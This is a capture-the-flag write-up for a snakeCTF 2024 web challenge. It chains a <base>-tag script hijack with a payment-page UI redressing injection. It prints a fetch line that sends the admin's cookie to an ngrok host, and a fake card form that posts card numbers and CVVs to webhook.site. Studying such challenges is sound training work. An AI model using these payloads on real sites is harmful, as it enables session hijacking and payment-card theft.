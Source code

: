 # SlashGirlfriends 2 [_snakeCTF 2024 Finals_]

**Category**: Web
**Author**: macedonga

## Description
Some people just couldn't get enough of SlashGirlfriends, that's why we're back for round 2.
Word is, the site's admins didn't learn their lesson from last time and left a few doors open...
This time, the secrets are bigger, juicier, and might even cost a little to uncover.
    
Can you charm your way past their defenses and steal the flag from someone?

## Solution

### Vulnerability 1: Arbitrary JavaScript execution on profile pages

The first vulnerability exists within the "about me" section of the public user profiles. This section permits markdown and specific HTML tags, including the `<base>` tag, which sets the base URL for all relative URLs in the page.

At the end of the profile page, a `console.js` script is loaded via a relative URL. By altering the base URL to point to an external server, the script's source can be controlled, enabling the execution of arbitrary JavaScript code.

The following payload can be added to the "about me" section to exploit this vulnerability:

```html
# my about me

<base href=http://your-ngrok-tunnel.ngrok.io>
```

After setting the base URL, the script will be loaded from our server, which enables arbitrary javascript execution. The following payload can be used to steal the admin's authentication cookie:

```js
fetch("http://your-ngrok-tunnel.ngrok.io/steal?cookie=" + btoa(document.cookie));
```

To trigger this, the profile can be reported from another account, prompting the administrator to view it. Upon visiting the profile, the admin's authentication cookie is exfiltrated, allowing login as the administrator.

### Vulnerability 2: UI redressing in the payment processor service

When purchasing a premium plan, users are redirected to a payment processor service. This page contains two disabled input fields displaying the user's username and email. Attempting to set a username such as `">` reveals that the input is not sanitised. This input can be exploited for a UI redressing attack.

While direct JavaScript injection is restricted by the Content Security Policy (CSP) header (`script-src 'self'`), the legitimate payment form can be hidden, and a fake form can be displayed instead. The following payload achieves this:

```html
"> </form>
<style>form:not(.show){"{display:none}"}</style>
<form class="show" action="http://webhook.site/your-uuid">
    <input name="pan">
    <input name="exp">
    <input name="cvv">
    <input name="notes">
</form><!--
```

When the fake form is submitted, the payment data, including the notes field containing the flag, is sent to the attacker's server.

### Combining the vulnerabilities to steal the flag

To combine these vulnerabilities, the following steps are performed:

- After obtaining the admin's authentication cookie using the profile page vulnerability, it is possible to search for the page from which the admin monitors the chats, as hinted by the initial message on them. The admin panel can be accessed via the `/admin` route, which can be found in the `_buildManifest.js` file.
- The admin panel allows viewing and sending messages on behalf of user-created girlfriends. From this page, it is observed that user `marco` frequently messages the girlfriend `lilvirgola`.
- A crafted message from `lilvirgola` containing a link to the doctored payment page can be sent to `marco`. (As `marco`'s "about me" says: "I trust her with all my heart, and I'd click ***any*** link she gives me!")
- When `marco` submits the fake payment form, the flag is included in the `notes` field and transmitted to the attacker's server.
